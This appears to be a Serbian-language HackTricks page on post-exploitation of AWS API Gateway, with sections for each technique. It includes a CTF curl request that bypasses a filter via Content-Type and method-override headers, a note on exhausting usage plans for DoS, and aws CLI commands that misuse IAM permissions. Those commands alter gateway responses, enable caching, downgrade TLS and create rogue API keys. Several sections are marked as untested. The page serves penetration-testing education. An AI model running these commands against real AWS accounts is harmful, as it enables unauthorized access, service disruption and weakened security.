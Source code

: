 # AWS - Post eksploatacija API Gateway-a

{% hint style="success" %}
&#x20;Učite i vežbajte hakovanje AWS-a:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Obuka AWS Crveni Tim Stručnjak (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
&#x20;Učite i vežbajte hakovanje GCP-a: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Obuka GCP Crveni Tim Stručnjak (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## API Gateway

Za više informacija pogledajte:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Pristup neizloženim API-ima

Možete kreirati endpoint na [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) sa servisom `com.amazonaws.us-east-1.execute-api`, izložiti endpoint u mreži gde imate pristup (potencijalno putem EC2 mašine) i dodeliti sigurnosnu grupu koja dozvoljava sve konekcije.\
Zatim, sa EC2 mašine ćete moći da pristupite endpointu i stoga pozovete API gateway koji prethodno nije bio izložen.

### Zaobiđite prosleđivanje tela zahteva

Ova tehnika je pronađena u [**ovom CTF writeup-u**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Kako je naznačeno u [**AWS dokumentaciji**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) u odeljku `PassthroughBehavior`, podrazumevano, vrednost **`WHEN_NO_MATCH`** , prilikom provere zaglavlja **Content-Type** zahteva, će proslediti zahtev ka pozadini bez transformacije.

Stoga, u CTF-u je API Gateway imao integracioni šablon koji je **sprečavao da se zastava eksfiltrira** u odgovoru kada je zahtev poslat sa `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Međutim, slanje zahteva sa **`Content-type: text/json`** bi sprečilo taj filter.&#x20;

Konačno, pošto je API Gateway dozvoljavao samo `Get` i `Options`, bilo je moguće poslati proizvoljan dynamoDB upit bez ikakvog ograničenja slanjem POST zahteva sa upitom u telu i korišćenjem zaglavlja `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Planovi korišćenja DoS

U **Enumeraciji** sekciji možete videti kako **dobiti plan korišćenja** ključeva. Ako imate ključ i on je **ograničen** na X korišćenja **mesečno**, možete ga **jednostavno koristiti i izazvati DoS**.

**API ključ** samo treba da bude **uključen** unutar **HTTP zaglavlja** nazvanog **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Napadač sa dozvolama `apigateway:UpdateGatewayResponse` i `apigateway:CreateDeployment` može **modifikovati postojeći Gateway Response da uključi prilagođena zaglavlja ili šablone odgovora koji otkrivaju osetljive informacije ili izvršavaju zlonamerne skripte**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencijalni uticaj**: Procurenje osetljivih informacija, izvršavanje zlonamernih skriptova ili neovlašćen pristup resursima API-ja.

{% hint style="info" %}
Potrebno je testiranje
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Napadač sa dozvolama `apigateway:UpdateStage` i `apigateway:CreateDeployment` može **modifikovati postojeći API Gateway stage kako bi preusmerio saobraćaj na drugi stage ili promenio postavke keširanja kako bi dobio neovlašćen pristup keširanim podacima**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencijalni uticaj**: Neovlašćen pristup keširanim podacima, ometanje ili presretanje API saobraćaja.

{% hint style="info" %}
Potrebno testiranje
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Napadač sa dozvolama `apigateway:PutMethodResponse` i `apigateway:CreateDeployment` može **modifikovati odgovor metode postojeće API Gateway REST API metode da uključi prilagođene zaglavlja ili šablone odgovora koji otkrivaju osetljive informacije ili izvršavaju zlonamerne skripte**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potencijalni uticaj**: Otkrivanje osetljivih informacija, izvršavanje zlonamernih skriptova ili neovlašćen pristup API resursima.

{% hint style="info" %}
Potrebno je testiranje
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Napadač sa dozvolama `apigateway:UpdateRestApi` i `apigateway:CreateDeployment` može **modifikovati postavke API Gateway REST API-ja kako bi onemogućio beleženje ili promenio minimalnu verziju TLS-a, potencijalno oslabljujući bezbednost API-ja**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potencijalni uticaj**: Oslabljuje bezbednost API-ja, potencijalno omogućavajući neovlašćen pristup ili otkrivanje osetljivih informacija.

{% hint style="info" %}
Potrebno je testiranje
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Napadač sa dozvolama `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` i `apigateway:CreateUsagePlanKey` može **kreirati nove API ključeve, povezati ih sa planovima korišćenja, a zatim koristiti ove ključeve za neovlašćen pristup API-ima**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potencijalni uticaj**: Neovlašćen pristup API resursima, zaobilazak sigurnosnih kontrola.

{% hint style="info" %}
Potrebno je testiranje
{% endhint %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
